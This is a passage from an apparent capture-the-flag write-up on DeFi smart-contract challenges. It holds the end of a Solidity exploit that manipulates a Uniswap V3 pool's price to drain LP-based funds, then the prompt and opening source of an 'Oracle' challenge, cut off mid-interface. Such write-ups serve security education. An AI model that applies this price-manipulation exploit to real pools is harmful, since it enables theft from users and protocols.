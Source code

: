 ```solidity
            uint256 token1bal =  token1.balanceOf(address(this));
            token1.approve(address(pool), token1bal);
            pool.swap(player, false, int256(token1bal), MAX_SQRT_RATIO-1, "");
        }
        
        token0.transfer(player, token0.balanceOf(address(this)));
        token1.transfer(player, token1.balanceOf(address(this)));

    }
    function uniswapV3SwapCallback(
        int256 amount0Delta,
        int256 amount1Delta,
        bytes calldata data
    ) external  {
        require(msg.sender == address(pool));
        if (amount0Delta > 0) token0.transfer(msg.sender, uint256(amount0Delta));
        if (amount1Delta > 0) token1.transfer(msg.sender, uint256(amount1Delta));
    }
}
```
{%end%}

The exploit takes advantage of the fact that the Yield contract doesn't properly handle extreme price movements in the underlying Uniswap V3 pool, allowing us to manipulate the LP token calculations to our advantage.
***


# Oracle

P: "Michael wrote a Dex pool for USDe and USDC tokens along with their respective oracles. Then he borrowed a large position from his own pool trusting his own code. The pool is deployed with the same code and params as the actual pool at https://etherscan.io/tx/0x6f4438aa1785589e2170599053a0cdc740d8987746a4b5ad9614b6ab7bb4e550. You are given 10000 tokens of USDe and USDC. Your goal is to get 20000 of USDe.

Might help you: check the differences betweeen the current implementation and the implementation deployed at the pool creation time on mainnet"

{% note(clickable=true, header="Oracle.sol") %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin-contracts-4.8.0/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin-contracts-4.8.0/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin-contracts-4.8.0/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin-contracts-4.8.0/contracts/access/Ownable.sol";
import "@openzeppelin-contracts-4.8.0/contracts/utils/math/Math.sol";

interface ICurve {
    function add_liquidity(
        uint256[] calldata amounts,
        uint256 min_mint_amount
    ) external returns (uint256);

    function remove_liquidity_imbalance(
        uint256[] calldata amounts,
        uint256 max_burn_amount
    ) external returns (uint256);

    function price_oracle(uint256 idx) external view returns (uint256);
    function last_price(uint256 idx) external view returns (uint256);
    function coins(uint256 idx) external view returns (address);
```